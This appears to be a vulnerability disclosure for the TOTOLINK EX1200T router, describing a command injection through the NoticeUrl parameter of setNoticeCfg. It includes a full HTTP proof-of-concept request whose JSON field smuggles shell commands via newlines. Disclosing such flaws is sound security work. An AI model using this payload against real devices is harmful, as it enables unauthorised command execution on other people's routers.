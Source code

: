 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setNoticeCfg` of the file `lib/system.so` , we can control the`NoticeUrl` to attack.

![image-20211019162629364](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162629364.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setNoticeCfg",
"NoticeEnabled":"1",
"NoticeUrl":"1.1.1.1\nps>/web_cste/test1\necho",
"BtnName":"Click here to continue",
"WhiteListUrl1":"11",
"IpFrom":"1.1.1.1",
"IpTo":"1.1.1.1",
"NoticeTimeoutVal":"120"
}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)